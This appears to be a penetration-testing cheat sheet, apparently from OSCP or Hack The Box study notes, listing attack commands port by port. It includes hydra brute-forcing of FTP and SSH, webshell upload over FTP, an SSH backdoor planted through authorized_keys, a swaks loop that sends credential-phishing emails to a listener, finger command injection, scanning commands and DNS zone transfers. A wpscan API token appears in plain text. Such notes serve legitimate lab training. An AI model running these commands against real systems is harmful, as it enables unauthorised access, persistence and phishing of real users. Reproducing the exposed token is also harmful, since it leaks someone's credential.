 ### Basic Fingerprint / Banner Grabbing:
- `nc -v 192.168.1.1 25`
- `telnet 192.168.1.1 25`
- `bash -c "exec 3<>/dev/tcp/192.168.11.13/22; echo EOF>&3; cat<&3"`
- Test Connectivity:  `echo '' > /dev/tcp/192.168.11.13/22`

## 21 - FTP:
- Try Connecting Anonymously:  `ftp <ip>; USER anonymous; PASS anonymous`
- Brute Force:  `hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ftp://<IP> -u -vV`
- Download file (binary):  `PASSIVE; BINARY; get <file>`
    - Recursively:  `wget -m ftp://anonymous:anonymous@10.10.10.98`
- Upload file (binary) (ex. webshell to access in browser):  `PASSIVE; BINARY; put <file>`
## 22 - SSH:
- Brute Force:  `hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV`
- Add Backdoor (post-exploitation):
    - Attack Box:  `ssh-keygen -f <FILENAME>; chmod 600 <FILENAME>; cat <FILENAME>.pub` (copy contents)
    - Victim Box:  create <FILENAME>.pub, then: `echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys`
    - Connect:  `ssh -i <FILENAME> <USER>@<IP>`
- CVE2008-0166:  All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.
## 25 - SMTP:
- Verify a user/email:  nc -nv 10.11.1.217 25;  VRFY root
- If you just have email addresses (maybe from cewl) and smtp port is open, try sending emails and getting response like in HTB sneakymailer (phishing, set up listener on 80):
        `while read mail; do swaks –to $mail –from it@sneakymailer.htb –header “Subject: Credentials / Errors” –body “goto http://10.10.14.4/” –server 10.10.10.197; done < mails.txt`
- For logging in and sending an email via 25, see pwk 10.11.1.229 example
- Check port 4555 remote admin tool; root/root default; change user password, then login on 110 and check
## 53 - DNS:
- IP Lookup:  `dig a domain-name-here.com @nameserver`
- MX Record Lookup:  `dig mx domain-name-here.com @nameserver`
- Recon:  `dnsenum <DOMAIN>  \\  dnsrecon -d <DOMAIN>`
- Zone Transfer:  `dnsrecon -d <DOMAIN> -a  \\  dig axfr blah.com @ns1.blah.com  \\  host -l megacorpone.com ns1.megacorpone.com  \\  Windows:  nslookup -> set type=any -> ls -d blah.com`
## 79 - Finger:
- User Enumeration:  finger @<IP>  \\  finger <USER>@<IP>
    - Script:  https://pentestmonkey.net/tools/user-enumeration/finger-user-enum with /usr/share/metasploit-framework/data/wordlists/unix_users.txt
- Command Execution:  finger "|/bin/id@<IP>"  \\  finger "|/bin/ls -a /<IP>"
## 80/443 - HTTP/HTTPS:
    Scanners:
        Automatic Web Vulnerability Scanner: Zed Attack Proxy (ZAP)
        *General Vulns:  nikto -h <URL>
            Changing User-Agent If Scanning Doesn't Work/Is Blocked:  dirb http://10.10.10.58:3000 -a "Custom Agent"
        *Directories:  gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.11.1.117 -k -x txt,php -t 50
            Other extensions: js,doc,html,asp,aspx,zip,pl,sh,json,py,cfm,rb,cgi
            Other wordlists:  /usr/share/seclists/Discovery/Web_Content/common.txt ; /usr/share/wordlists/dirb/big.txt ; /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
        Subdomains:  ffuf -c -w /usr/share/dnsrecon/subdomains-top1mil-5000.txt -u http://schooled.htb -H "Host: FUZZ.schooled.htb" -fw 5338
        Wordpress:
            wpscan --url http://10.10.10.37 -e ap --plugins-detection aggressive --enumerate u --api-token RtpZ5nVvDIhoVrvHg3Aq8hu9S54yks0WH3it0A5XO8w
            WP: After access to admin panel, enumerate: Tools > Site Health
